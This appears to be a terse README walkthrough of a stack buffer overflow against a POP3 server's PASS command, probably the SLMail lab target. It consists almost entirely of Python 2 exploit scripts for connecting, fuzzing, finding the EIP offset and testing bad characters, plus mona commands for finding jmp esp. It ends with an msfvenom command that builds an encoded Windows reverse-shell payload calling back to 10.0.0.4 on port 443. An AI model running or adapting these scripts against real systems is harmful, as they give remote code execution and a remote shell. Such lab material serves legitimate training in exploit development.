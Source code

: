 # bofwalkthrough
CONNECT  
#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
try:  
         print "\nSending evil buffer..."  
         s.connect(('IP',PORT))            # connect to IP, POP3 port  
         data = s.recv(1024)                     # receive banner  
         print data                              # print banner  
 
         s.send('USER test' +'\r\n')             # send username "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
 
         s.send('PASS test\r\n')                 # send password "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
 
         s.close()                               # close socket  
         print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

FUZZ  


#!/usr/bin/python  
import socket  

#Create an array of buffers, from 1 to 5900 with increments of 200.  
buffer = ["A"]  
counter = 100  
while len(buffer) <= 30:  
    buffer.append("A"*counter)  
    counter=counter+200  

for string in buffer:  
    print "Fuzzing PASS with %s bytes" % len(string)  
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    connect=s.connect(('IP',PORT))  
    s.recv(1024)  
    s.send('USER test\r\n')  
    s.recv(1024)  
    s.send('PASS ' + string + '\r\n')  
    s.send('QUIT\r\n')  
    s.close()  

Find EIP  
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700   

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q    

Badchars  

#!/usr/bin/python  
import socket  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

badchars = (  
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"  
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"  
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"  
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"  
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"  
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"  
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"  
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"  
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"  
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"  
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"  
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"  
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"  
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"  
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )  

buffer ="A"*2606 + "B"*4 + badchars  

try:  
    print "\nSending evil buffer..."  
    s.connect(('10.11.14.144',110))  
    data = s.recv(1024)  
    s.send('USER username' +'\r\n')  
    data = s.recv(1024)  
    s.send('PASS ' + buffer + '\r\n')  
    s.close()  
    print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

!mona modules  

jmp esp  

push esp  
retn  

ruby /usr/share/metasploit-framework/tools/nasm_shell.rb  
add eax,12  
jmp eax  

!mona find -s "\xff\xe4" -m slmfc.dll (mona find jmp esp in .dll file)  


#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

buf = "A" * 2606 + "\x5f\x4a\x35\x8f" + "C" *(3500 - 2606 - 4)  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    print data  

    s.send('USER test' +'\r\n')  
    data = s.recv(1024)  
    print data  

    s.send('PASS ' + buf + '\r\n')  
    data = s.recv(1024)  
    print data  

    s.close()  
    print "\nDone!"  

except:  
    print "Could not connect to X!"  

 msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"  
